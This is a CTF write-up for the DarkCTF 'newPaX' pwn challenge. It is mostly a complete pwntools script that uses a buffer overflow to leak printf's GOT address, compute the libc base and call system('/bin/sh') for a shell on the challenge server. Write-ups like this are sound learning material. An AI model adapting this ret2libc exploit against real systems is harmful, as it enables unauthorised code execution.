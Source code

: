 ## DarkCTF: newPaX [pwn]
> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.

#### I solved this using ret2libc, but the author had another 'intended' way of solving it (I'll update this later). Similar to roprop, but this time in 32-bit. There are a only a few functions in the binary to which we can perform rop with. My plan was to leak printf's got address then proceed with the usual ret2libc approach.
```python
from pwn import *

#:
p = remote('pwn.darkarmy.xyz', 5001)
#p = process('./newPaX')
binary = ELF('./newPaX', checksec = False)

#: Stage 1
exploit = cyclic(52)
exploit += p32(binary.symbols['printf'])
exploit += p32(binary.symbols['main'])
exploit += p32(binary.got['printf'])
p.sendline(exploit)

#: Get libc from leak
libc = ELF('libc6-i386_2.27-3ubuntu1.2_amd64.so', checksec = False)

printf_leak = u32(p.recv()[:4])
print('[*] printf leak: {}'.format(hex(printf_leak)))
libc.address = printf_leak - libc.symbols['printf']
print('[*] libc base: {}'.format(hex(libc.address)))

#: Stage 2
exploit = cyclic(52)
exploit += p32(libc.symbols['system'])
exploit += p32(libc.symbols['exit'])
exploit += p32(libc.search('/bin/sh').next())
p.sendline(exploit)
p.interactive()
```
![](newpax_shell.png)